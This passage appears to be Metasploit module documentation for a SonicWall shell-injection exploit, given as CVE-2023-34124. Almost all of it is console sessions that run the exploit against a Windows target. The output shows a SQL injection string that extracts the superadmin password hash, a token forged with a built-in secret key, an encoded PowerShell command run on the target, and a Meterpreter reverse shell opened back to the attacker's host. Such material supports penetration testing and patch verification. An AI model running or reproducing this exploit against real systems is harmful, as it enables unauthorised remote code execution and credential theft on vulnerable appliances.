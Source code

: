 ### Windows command

The Windows target can also run a generic Windows payload. You won't see the
output, though.

```
msf > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 1
TARGET => 1
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set PAYLOAD cmd/windows/generic
PAYLOAD => cmd/windows/generic
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.79
RHOST => 10.0.0.79
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set CMD "echo hi > c:\\users\\administrator\\desktop\\test.txt"
CMD => echo hi > c:\users\administrator\desktop\test.txt
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 35362425873079330798216049225958
[*] Generated client token: e304c909a4e69b49608777910338b8ba
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Windows detected!)
[*] Encoding (Windows) command: echo hi > c:\users\administrator\desktop\test.txt
[*] Running shell command: powershell IEX ([System.Text.Encoding]::UTF8.GetString([byte[]]@(99,109,100,46,101,120,101,32,47,99,32,101,99,104,111,32,104,105,32,62,32,99,58,92,117,115,101,114,115,92,97,100,109,105,110,105,115,116,114,97,116,111,114,92,100,101,115,107,116,111,112,92,116,101,115,116,46,116,120,116)))
[+] Payload sent!
```

Validate:

```
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227
LHOST => 10.0.0.227
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set FETCH_SRVHOST 10.0.0.227
FETCH_SRVHOST => 10.0.0.227
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE false
VERBOSE => false
msf exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Windows detected!)
[*] Sending stage (200774 bytes) to 10.0.0.79
[+] Payload sent!
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.79:52787) at 2023-08-18 14:13:11 -0700

meterpreter > ls c:\\users\\administrator\\desktop\\test.txt
100666/rw-rw-rw-  10  fil  2023-08-18 14:06:51 -0700  c:\users\administrator\desktop\test.txt
```